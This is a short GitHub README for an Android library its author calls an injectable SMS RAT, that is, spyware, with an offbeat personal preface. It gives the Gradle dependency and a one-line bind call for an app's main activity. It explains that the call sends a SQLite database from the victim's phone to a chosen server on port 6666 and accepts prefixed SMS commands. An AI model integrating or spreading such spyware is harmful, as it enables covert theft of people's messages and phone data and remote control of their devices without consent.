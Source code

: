 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. There is a self-destructible SMS notification messenger app. Like snapchat in your drawer. It's hidden in a git branch. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
